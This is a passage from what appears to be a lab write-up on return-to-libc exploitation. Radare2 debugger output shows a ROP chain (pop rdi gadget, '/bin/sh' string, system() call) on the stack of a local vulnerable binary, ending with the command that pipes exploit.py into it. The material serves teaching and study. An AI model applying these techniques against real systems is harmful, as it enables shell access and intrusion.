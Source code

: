 orax = 0xffffffffffffffff
[0x55555555468a]> 

[0x55555555468a]> pxw @ rsp
0x7fffffffdfc8  0x55554753 0x00005555 0xf7b95d88 0x00007fff  SGUUUU...]......
0x7fffffffdfd8  0xf7a31420 0x00007fff 0xf7a25110 0x00007fff   ........Q......
0x7fffffffdfe8  0xf7a03c00 0x00007fff 0x00000001 0x00000000  .<..............
0x7fffffffdff8  0xffffe0c8 0x00007fff 0x00008000 0x00000001  ................
0x7fffffffe008  0x555546c7 0x00005555 0x00000000 0x00000000  .FUUUU..........
0x7fffffffe018  0x276cc210 0x3e4d7841 0x55554580 0x00005555  ..l'AxM>.EUUUU..
```
So we see that we have our params on the stack ready to be pop'ed
```
[0x55555555468a]> pd 10 @ 0x0000555555554753
|           0x555555554753      5f             pop rdi
\           0x555555554754      c3             ret

[0x55555555468a]> pxw @ 0x00007ffff7b95d88
0x7ffff7b95d88  0x6e69622f 0x0068732f 0x74697865 0x63003020  /bin/sh.exit 0.c
0x7ffff7b95d98  0x6e6f6e61 0x6c616369 0x2e657a69 0x534d0063  anonicalize.c.MS
0x7ffff7b95da8  0x52455647 0x45530042 0x454c5f56 0x004c4556  GVERB.SEV_LEVEL.

[0x55555555468a]> pd 10 @ 0x00007ffff7a31420
        :   0x7ffff7a31420      4885ff         test rdi, rdi
       ,==< 0x7ffff7a31423      740b           je 0x7ffff7a31430
       |`=< 0x7ffff7a31425      e966faffff     jmp 0x7ffff7a30e90
       |    0x7ffff7a3142a      660f1f440000   nop word [rax + rax]
       `--> 0x7ffff7a31430      488d3d594916.  lea rdi, qword [0x7ffff7b95d90] ; "exit 0"
            0x7ffff7a31437      4883ec08       sub rsp, 8
            0x7ffff7a3143b      e850faffff     call 0x7ffff7a30e90
            0x7ffff7a31440      85c0           test eax, eax
            0x7ffff7a31442      0f94c0         sete al
            0x7ffff7a31445      4883c408       add rsp, 8
```
All of them placed correctly. We can manually continue the execution of the program with ds, step by step and we see that at least we are gettingo into the system() call:
```
[0x555555554753]> pd 10
|           ;-- rip:
|           0x555555554753      5f             pop rdi
\           0x555555554754      c3             ret

[0x555555554753]> ds
[0x555555554753]> dr rdi
0x7ffff7b95d88
[0x555555554753]> pxw @ rdi
0x7ffff7b95d88  0x6e69622f 0x0068732f 0x74697865 0x63003020  /bin/sh.exit 0.c

[0x7ffff7a31420]> ds
[0x7ffff7a31420]> pd 10
        :   0x7ffff7a31420      4885ff         test rdi, rdi
        :   ;-- rip:
       ,==< 0x7ffff7a31423      740b           je 0x7ffff7a31430
       |`=< 0x7ffff7a31425      e966faffff     jmp 0x7ffff7a30e90
       |    0x7ffff7a3142a      660f1f440000   nop word [rax + rax]
       `--> 0x7ffff7a31430      488d3d594916.  lea rdi, qword [0x7ffff7b95d90] ; "exit 0"
dc
```
But if we check that we'll see that our exploit is now working quite as well as expected:
```
lab@lab-VirtualBox:~$ (python3 exploit.py ; cat) | ./vuln
